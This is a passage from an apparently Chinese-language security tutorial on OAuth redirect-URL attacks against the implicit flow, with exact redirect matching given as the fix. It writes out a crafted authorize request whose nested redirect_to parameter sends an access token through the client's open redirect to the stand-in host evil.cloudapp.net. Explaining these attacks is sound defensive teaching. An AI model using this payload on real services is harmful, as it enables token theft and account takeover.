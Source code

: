 针对隐式流的重定向攻击将遵循与我们上面看到的相同的基本步骤，主要区别在于攻击者会立即获得令牌，因为没有授权码交换步骤。

与以前一样，重定向URL的绝对匹配也会减轻此类攻击。

此外，我们还可以发现隐式流还包含另一个相关漏洞，**攻击者可以使用客户端作为开放的重定向器，并让其重新附加片段**。

攻击的开始方式与之前类似，攻击者诱使用户访问攻击者控制的页面，例如https://evil.cloudapp.net/info。该页面旨在像之前一样发起授权请求，但是，它现在包含一个重定向URL：

```text
GET /authorize?response_type=token&client_id=ABCD&state=xyz&redirect_uri=https%3A%2F%2Fapp.cloudapp.net%2Fcb%26redirect_to
%253Dhttps%253A%252F%252Fevil.cloudapp.net%252Fcb HTTP/1.1
```

redirect_to https://evil.cloudapp.net设置授权端点，以将令牌重定向到攻击者控制的域，授权服务器现在将首先重定向到实际的应用程序站点：

```text
Location: https://app.cloudapp.net/cb?redirect_to%3Dhttps%3A%2F%2Fevil.cloudapp.net%2Fcb#access_token=LdKgJIfEWR34aslkf&...
```

当此请求到达开放的重定向器时，它将提取重定向URL evil.cloudapp.net，然后重定向到攻击者的站点：

```text
https://evil.cloudapp.net/cb#access_token=LdKgJIfEWR34aslkf&...
```

绝对URL匹配也会减轻这种攻击。

## 6. 总结

在本文中，我们讨论了一类基于重定向URL的针对OAuth协议的攻击。

虽然这可能会产生严重后果，但在授权服务器上使用绝对URL匹配可以减轻此类攻击。